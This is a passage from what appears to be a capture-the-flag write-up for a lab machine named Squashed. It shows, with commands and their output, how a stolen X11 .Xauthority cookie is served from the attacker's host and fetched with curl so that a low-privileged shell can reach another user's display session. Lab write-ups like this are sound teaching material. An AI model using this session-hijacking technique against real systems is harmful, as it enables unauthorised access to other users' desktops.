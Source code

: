 

That post also says:

> NOTE: the 2nd, 3rd and 4th mechanisms store the keys inside
> \~/.Xauthority therefore anyone who has access to this file, can
> connect to the server pretending to be "you".

#### Enumerate Display

I'll want to know what display is currently connected. This can be found
with the `w` command from my shell as alex.



    alex@squashed:/home/alex$ w
     21:24:58 up  1:39,  1 user,  load average: 0.00, 0.00, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    ross     tty7     :0               19:45    1:39m  9.01s  0.04s /usr/libexec/gn



ross is logged in and using display `:0`.

#### Verify Cookie

To see if the cookie works, I'll try to run some enumeration commands
like `xdpyinfo` and `xwininfo`. If I try to run these from my shell as
alex without any auth, they both fail:



    alex@squashed:/home/alex$ xdpyinfo -display :0                                                             
    No protocol specified
    xdpyinfo:  unable to open display ":0".

    alex@squashed:/home/alex$ xwininfo -root -tree -display :0                            
    No protocol specified
    xwininfo: error: unable to open display ":0"



I'll fetch a copy of the cookie from the NFS mount and save it on
Squashed so that it can be used from the session as alex. From the NFS
mount on my host, I'll run `python3 -m http.server 80` (with `sudo` if
necessary) to start a Python webserver in that directory on my host.

From the shell as alex, I'll fetch this file with `curl`, and write it
to `/tmp`:



    alex@squashed:/home/alex$ curl http://10.10.14.6/.Xauthority -o /tmp/.Xauthority 
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100    57  100    57    0     0    111      0 --:--:-- --:--:-- --:--:--   111



There's two ways to get these tools to use this file for auth. I could
put it in `$HOME/.Xauthority` for my current user. That works, but the
one trick is that `$HOME`isn't set:
